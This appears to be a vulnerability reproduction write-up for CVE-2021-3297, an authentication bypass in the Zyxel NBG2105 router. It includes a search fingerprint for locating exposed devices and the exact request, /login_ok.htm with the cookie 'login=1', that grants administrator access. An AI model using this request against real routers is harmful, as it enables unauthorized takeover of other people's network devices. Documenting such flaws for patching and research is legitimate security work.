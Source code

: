 # Zyxel NBG2105 Authentication Bypass CVE-2021-3297

## Vulnerability Description

Zyxel NBG2105 has authentication bypass, and the attacker can use the login parameter to achieve background login.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zyxel NBG2105</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="ZyXEL-NBG2105"</span>

## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zyxel-5.png)



The front-end file `/js/util_gw.js` has the front-end verification of the cookie login parameters.



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zyxel-6.png)



You can see that if the `login=1` is detected in the cookie, it will jump to home.html



```plain
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```



If the request is as follows, you will jump to the `home.htm page as an administrator`



```plain
https://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zyxel-7.png)



## 